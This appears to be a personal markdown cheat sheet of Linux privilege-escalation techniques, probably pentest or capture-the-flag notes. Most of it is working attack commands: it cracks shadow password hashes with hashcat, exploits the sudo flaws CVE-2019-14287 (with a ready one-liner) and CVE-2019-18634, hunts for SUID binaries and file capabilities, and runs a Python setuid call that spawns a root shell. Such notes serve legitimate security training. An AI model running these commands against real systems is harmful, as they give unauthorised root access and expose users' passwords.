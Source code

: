 ##### Starting XenSpawn
```
 sudo systemd-nspawn -M spawn
```
- Close with command exit

#### Passwd File
- Generate password to enter into passwd file
```
openssl passwd <password>
```
- Unshadow for cracking
```
unshadow passwd shadow
```
- Cracking hash
```
hashcat -m 1800 shadow.txt rockyou.txt 
```

#### Sudo
```
sudo -l 
```
-  https://gtfobins.github.io
##### CVE-2019-14287
- If sudo -l returns  (ALL, !root) /bin/bash it is vulnerable to this CVE
- Exploit with
```
sudo -u#-1 /bin/bash
```
- Can also change the 1 if we wish to move to another user that isn't root

##### CVE 2019-18634
- Check the result of sudo -v against the [following](https://github.com/saleemrashid/sudo-cve-2019-18634)
- If so and we receive visual feedback of the passwd when we run su
- Compile the above exploit with
```
gcc -o exploit exploit.c
```

#### SUID
 - Compare below with GTFO Bins
 ```
 find / -perm -u=s -type f 2>/dev/null
```

#### Capabilities
```
getcap -r / 2>/dev/null
```
- Look for a response with ep in the end against a service that we believe exploitable (something like Python / Ruby)
- Python to elevate privs
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
